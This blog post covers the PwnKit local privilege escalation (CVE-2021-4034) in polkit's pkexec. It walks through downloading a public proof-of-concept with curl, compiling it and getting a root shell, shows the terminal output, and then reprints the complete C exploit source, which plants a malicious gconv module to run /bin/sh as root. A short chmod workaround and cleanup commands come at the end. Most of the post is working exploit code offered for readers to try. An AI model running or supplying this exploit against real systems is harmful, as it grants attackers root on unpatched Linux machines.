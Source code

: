 ```yaml
---
title: "Local Privilege Escalation in polkits pkexec"
date: "2022-01-26T06:21:12-05:00"
Tags: ["vuln", "cve"]
Categories: ["security"] 
---
```

The big news in Linux today is the [Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://seclists.org/oss-sec/2022/q1/90), with [Arstechnica](https://arstechnica.com/information-technology/2022/01/a-bug-lurking-for-12-years-gives-attackers-root-on-every-major-linux-distro/) leading with, "_A bug lurking for 12 years gives attackers root on every major Linux distro - It's likely only a matter of time before PwnKit is exploited in the wild_" Needless to say, I immediately had to try it out on my own, so I got on one of my [Debian GNU/Linux](https://debian.org) servers to test it. Spoiler: it worked, here's how you can try it too.

## Howto

```
# id
uid=1000(fak3r) gid=1000(fak3r) groups=1000(fak3r),27(sudo)
$ curl -O https://haxx.in/files/blasty-vs-pkexec.c
$ gcc blasty-vs-pkexec.c -o pkexec-poc
$ ./pkexec-poc
[~] compile helper..
[~] maybe get shell now?
# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1000(fak3r)
# 
```

## Workaround fix (temporary)

While this is bad, here's a quick workaround, remove the sticky bit from the binary - it's certainly untested, and will be null once a patch is released:

```
chmod 755 /usr/bin/pkexec
```

## Cleanup

To remove the downloaded, and generated, code:

```
rm -rf pkexec-poc blasty-vs-pkexec.c GCONV_PATH\=. lol payload.*
```

## Code

In case the C code is pulled, here's it is, again, I grabbed it from [haxx.in](https://haxx.in/files/blasty-vs-pkexec.c).

```
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```
